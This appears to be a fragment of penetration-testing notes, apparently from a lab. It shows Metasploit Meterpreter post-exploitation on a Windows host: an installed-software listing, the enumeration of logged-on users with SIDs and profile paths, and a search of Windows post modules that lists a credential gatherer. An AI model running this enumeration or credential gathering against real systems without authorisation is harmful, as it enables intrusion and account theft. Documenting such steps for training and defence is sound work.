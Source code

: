 ```cmd
 Hotfix for Microsoft Visual Studio 2007 Tools for Applications - ENU (KB946344)           1
 Hotfix for Microsoft Visual Studio 2007 Tools for Applications - ENU (KB947540)           1
 Hotfix for Microsoft Visual Studio 2007 Tools for Applications - ENU (KB947540)           1
 Hotfix for Microsoft Visual Studio 2007 Tools for Applications - ENU (KB947789)           1
 Hotfix for Microsoft Visual Studio 2007 Tools for Applications - ENU (KB947789)           1
 Microsoft .NET Framework 4 Multi-Targeting Pack                                           4.0.30319
...
```

### Get User Login Info
```cmd
meterpreter > run post/windows/gather/enum_logged_on_users

[*] Running against session 1

Current Logged Users
====================

 SID                                            User
 ---                                            ----
 S-1-5-21-569414602-2136848009-1330675085-1014  DIGISERVER2\admin
 S-1-5-21-569414602-2136848009-1330675085-500   DIGISERVER2\digiserver2


[+] Results saved in: /root/.msf4/loot/20220819012503_default_10.5.0.6_host.users.activ_801038.txt

Recently Logged Users
=====================

 SID                                                              Profile Path
 ---                                                              ------------
 S-1-5-18                                                         %systemroot%\system32\config\systemprofile
 S-1-5-19                                                         C:\Windows\ServiceProfiles\LocalService
 S-1-5-20                                                         C:\Windows\ServiceProfiles\NetworkService
 S-1-5-21-569414602-2136848009-1330675085-1011                    C:\Users\user3
 S-1-5-21-569414602-2136848009-1330675085-1014                    C:\Users\admin
 S-1-5-21-569414602-2136848009-1330675085-500                     C:\Users\digiserver2
 S-1-5-80-4236765743-3808192740-2613062417-2221589958-392330778   C:\Users\SqlIaaSExtensionQuery
 S-1-5-82-1036420768-1044797643-1061213386-2937092688-4282445334  C:\Users\Classic .NET AppPool

```

### Use Post Modules
```cmd
msf6 exploit(multi/handler) > search post/windows

Matching Modules
================

   #    Name                                                       Disclosure Date  Rank       Check  Description
   -    ----                                                       ---------------  ----       -----  -----------
   0    post/windows/gather/ad_to_sqlite                                            normal     No     AD Computer, Group and Recursive User Membership to Local SQLite DB
   1    post/windows/gather/credentials/aim                                         normal     No     Aim credential gatherer
   2    post/windows/manage/archmigrate                                             normal     No     Architecture Migrate
```